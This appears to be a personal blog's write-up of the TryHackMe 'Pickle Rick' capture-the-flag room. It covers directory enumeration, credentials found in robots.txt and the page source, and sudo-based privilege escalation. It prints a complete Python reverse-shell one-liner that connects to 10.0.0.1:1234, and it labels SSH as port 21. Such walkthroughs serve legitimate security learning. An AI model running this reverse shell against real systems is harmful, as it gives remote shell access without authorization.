

repository: saharshtapi/saharshtapi.github.io · page: CTF/pickleRick.html · generator: jekyll

---
title: Pickle Rick
permalink: pickleRick
---
# ![front](saharshtapi.github.io/images/pickleRick/front.png)
[https://tryhackme.com/room/picklerick](https://tryhackme.com/room/picklerick)

## Open Ports:
  - 21: ssh
  - 80: HTTP
  
## Port 80:
1. find sub-doamisn and directories usind **dirb** + **dirbuster**
   - ip/robots.txt **(we find passwd)**
   - ip/index **(username in the source Page)**
   - ip/portal.php **(found username and password)**
   
## Gaining Access:
 **We find a terminal inside the website**
 - Add the python reverse shell command 
    >python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
 - listening via netcat will gain you access to the **BOX**
### 1st Flag:
![user_flag](saharshtapi.github.io/images/PickleRick/1st.png)
### 2nd Flag:
![user_flag](saharshtapi.github.io/images/PickleRick/2nd.png) 


## Privilege Escalation:
 - sudo -l
    - All users are sudp 
      > 'sudo bash'
    
### 3rd Flag:
![rootflag.png](saharshtapi.github.io/images/pickleRick/3rd.png)
